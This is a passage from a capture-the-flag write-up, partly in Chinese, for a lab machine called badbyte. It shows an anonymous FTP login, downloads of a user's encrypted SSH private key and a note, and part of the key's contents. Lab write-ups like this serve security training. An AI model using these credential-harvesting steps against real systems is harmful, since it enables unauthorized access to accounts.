 ```
**┌──(dna㉿deniers)-[~/badbyte]**
**└─$ ftp badbyte.thm -P 30024**

Connected to badbyte.thm.
220 (vsFTPd 3.0.3)
Name (badbyte.thm:dna): **anonymous**
331 Please specify the password.
Password: **[types nothing]**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
**ftp> ls**
229 Entering Extended Passive Mode (|||6687|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp     1743 Mar 23  2021 id_rsa
-rw-r--r--    1 ftp      ftp       78 Mar 23  2021 note.txt
226 Directory send OK.
**ftp> get id_rsa**
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||48291|)
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
100% |************************|  1743     11.78 MiB/s    00:00 ETA
226 Transfer complete.
1743 bytes received in 00:00 (16.15 KiB/s)
**ftp> get note.txt**
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||37448|)
150 Opening BINARY mode data connection for note.txt (78 bytes).
100% |*************************| 78      634.76 KiB/s    00:00 ETA
226 Transfer complete.
78 bytes received in 00:00 (0.51 KiB/s)
**ftp>**
```

首先，我转储了`note.txt`的内容:

```
**┌──(dna㉿deniers)-[~/badbyte]
└─$ cat note.txt     **                                            
I always forget my password. Just let me store an ssh key here.
- errorcauser

**┌──(dna㉿deniers)-[~/badbyte]
└─$**
```

看起来我试图通过 SSH 登录的用户叫做`errorcauser`。只是为了看看我是否能从`id_rsa`的原始转储中获得任何有用的信息，我决定尝试并`cat`出它的内容:

```
**┌──(dna㉿deniers)-[~/badbyte]
└─$ cat id_rsa** 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,25B4B9725AB330ECLGINB6oiLaGhDgr5D0+9C7+AJ

[... snip ...]

v6fSxb2wsx+qDnk4tO25bXq37HqqSBNw0/NyjOWe//5QE0Q5PWuoEVP/huCKcFHb
mTDaYO2KwZXCse7derYJ0eWpKiiKcmGwmi57m+uvTka+o8xA928/xw==
-----END RSA PRIVATE KEY-----

**┌──(dna㉿deniers)-[~/badbyte]
└─$**
```

